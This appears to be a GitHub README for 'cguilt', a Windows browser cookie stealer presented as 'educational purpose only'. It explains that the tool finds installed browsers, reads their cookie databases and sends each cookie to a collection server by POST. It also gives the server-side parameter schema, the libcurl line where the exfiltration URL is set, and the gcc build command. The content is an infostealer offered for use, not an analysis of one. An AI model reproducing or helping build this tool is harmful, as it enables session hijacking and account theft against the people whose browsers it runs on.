 # cguilt
Complete raw cookie stealer for MS Windows. Educational purpose only. Have runtime dependencies, such as `libcurl`. Binaries are not distributed for obvious reason. Also cookies are not decrypted for some reason, but I'm one hundred percent working on it. Maybe.

Working principe just pretty simple: first checks what browsers are currently installed on the local machine. There is only four variants for now *(Firefox, Chrome, Opera, Yandex)*, then reads their cookie file databases and sends content to your server through API requests. Really simple, huh.

If you want to build your own binary, scroll down. You'll also you need a serverside to accept incoming POST requests with some query params in it. To check the template of incoming params, scroll a little bit down.

## query template
In incoming API requests query schema has three parametrs:
1. `host`. Cookie host value. Cguilt sending cookies one-by-one, so the one request is the one cookie pair. String, max 128 chars long.
2. `value`. Cookies content value. String, max 1024 chars long.
3. `b_type`. Browser type. Not exactly every browsers here, but only Chromium in general (= 1) and Gecko (= 2).

## build
Install `libcurl` and `sqlite3` libs. Before compilation change destination server adress in 55th string in `send.c`:
```c
curl_easy_setopt(curl, CURLOPT_URL, "http://127.0.0.1:5000/api_post");
```
Compile everything.
```bash
$ gcc -o <name> main.c send.c `pkg-config --cflags --libs sqlite3 libcurl`
```

